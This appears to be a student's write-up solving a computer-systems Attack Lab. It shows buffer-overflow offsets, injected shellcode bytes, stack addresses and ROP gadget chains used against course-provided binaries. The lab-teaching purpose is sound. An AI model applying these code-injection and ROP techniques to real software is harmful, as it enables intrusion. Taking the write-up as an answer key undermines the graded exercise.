





# Attack Lab Solving Process

## Tools and Setup

I used the following tools to analyze the binaries and construct exploits:
*   **Disassembly**: `objdump -d ctarget > ctarget.asm` and `objdump -d rtarget > rtarget.asm`.
*   **Debugger**: `gdb ./ctarget` and `gdb ./rtarget`.
*   **Hex Converter**: `./hex2raw` to convert hex strings to raw byte input.
*   **Cookie**: My unique cookie is `0x59b997fa`.

---

## Part I: Code Injection Attacks (ctarget)

### Phase 1: Redirecting Control

**Goal**: Overwrite the return address of `getbuf` to jump to `touch1`.

I started by disassembling `ctarget` to understand the `getbuf` function.
I noticed `sub $0x28, %rsp`, which indicates a buffer size of 40 bytes (`0x28`).
Next, I found the address of `touch1` at `0x4017c3`.

**Exploit Construction**:
I created a payload with 40 bytes of padding followed by the address of `touch1` in Little Endian.

**Result**:
!Phase 1 Pass



Payload: [ctarget.l1.txt](solutions/ctarget.l1.txt)

### Phase 2: Injecting Code

**Goal**: Jump to injected code that sets `%rdi` to your cookie, then jumps to `touch2`.

I found the address of `touch2` at `0x4017f1`.
To inject code, I needed the address of the stack buffer. I used GDB to find it:
```bash
(gdb) b getbuf
(gdb) run
(gdb) print /x $rsp
$1 = 0x5561dc78
```

I wrote the following assembly to set the cookie and return to `touch2`:
```assembly
mov $0x59b997fa, %edi
ret
```
The opcode for this is `bf fa 97 b9 59 c3`.

**Exploit Construction**:
1.  Injected code (`bf fa 97 b9 59 c3`).
2.  Padding to fill the 40-byte buffer.
3.  Overwrote the return address with the buffer address `0x5561dc78`.

**Result**:
!Phase 2 Pass



Payload: [ctarget.l2.txt](solutions/ctarget.l2.txt)

### Phase 3: String Injection

**Goal**: Jump to injected code that passes a string pointer to `touch3`.

I found `touch3` at `0x401908`.
I converted my cookie `0x59b997fa` to a hex string: `35 39 62 39 39 37 66 61 00`.
I decided to place this string in the stack frame *after* the return address.
*   Buffer Start: `0x5561dc78`
*   Return Address Slot: `0x5561dc78` + 0x28 = `0x5561dca0`
*   String Address: `0x5561dca0` + 0x8 = `0x5561dca8`

I wrote assembly to pass this address to `touch3`:
    ```assembly
    movq $0x5561dca8, %rdi
    pushq $0x401908
    ret
    ```

**Exploit Construction**:
1.  Injected code.
2.  Padding (total 40 bytes).
3.  Return address -> Buffer start (`0x5561dc78`).
4.  String bytes placed immediately after.

**Result**:
!Phase 3 Pass



Payload: [ctarget.l3.txt](solutions/ctarget.l3.txt)

---

## Part II: Return-Oriented Programming (rtarget)

### Phase 4: ROP Level 2

**Goal**: Call `touch2(cookie)` using ROP gadgets.

Since the stack is non-executable, I had to find gadgets in `rtarget.asm`.
I needed to pop my cookie into `%rdi`. I couldn't find `pop %rdi`, so I used a two-step chain:
1.  `pop %rax` -> `0x4019bc` (found inside `addval_219`).
2.  `mov %rax, %rdi` -> `0x4019b3` (found inside `addval_273`).

**Exploit Chain**:
1.  Padding (40 bytes).
2.  `0x4019bc` (`pop %rax`).
3.  `0x59b997fa` (Cookie).
4.  `0x4019b3` (`mov %rax, %rdi`).
5.  `0x4017f1` (`touch2`).

**Result**:
!Phase 4 Pass



Payload: [rtarget.l2.txt](solutions/rtarget.l2.txt)

### Phase 5: ROP Level 3

**Goal**: Call `touch3(string_ptr)` using ROP gadgets.

I needed to calculate the address of the string (which I placed on the stack) dynamically.
I found the following gadgets to move `%rsp` to `%rdi` and add an offset:

*   `pop %rax` (`0x4019bc`): Load offset.
*   `mov %eax, %edx` (`0x401a53`): Move offset to `%edx`.
*   `mov %edx, %ecx` (`0x401a45`): Move offset to `%ecx`.
*   `mov %ecx, %esi` (`0x401a38`): Move offset to `%esi`.
*   `mov %rsp, %rax` (`0x401a17`): Get stack pointer.
*   `mov %rax, %rdi` (`0x4019b3`): Move stack pointer to `%rdi`.
*   `lea (%rdi,%rsi,1), %rax` (`0x4019e7`): Add StackPtr + Offset.
*   `mov %rax, %rdi` (`0x4019b3`): Move result to `%rdi`.
*   `touch3` (`0x401908`).

I placed the string at the end of the payload. The offset from the stack pointer when `mov %rsp, %rax` executes to the string was calculated to be `0x20` (32 bytes).

**Exploit Chain**:
1.  Padding (40 bytes).
2.  Gadget chain to calculate address.
3.  `touch3` address.
4.  String "59b997fa".

**Result**:
!Phase 5 Pass



Payload: [rtarget.l3.txt](solutions/rtarget.l3.txt)

## Solution Log

| Phase | Pass/Fail | Notes |
|-------|-----------|-------|
| 1     | Solved    | Payload in `ctarget.l1.txt` |
| 2     | Solved    | Payload in `ctarget.l2.txt` |
| 3     | Solved    | Payload in `ctarget.l3.txt` |
| 4     | Solved    | Payload in `rtarget.l2.txt` |
| 5     | Solved    | Payload in `rtarget.l3.txt` |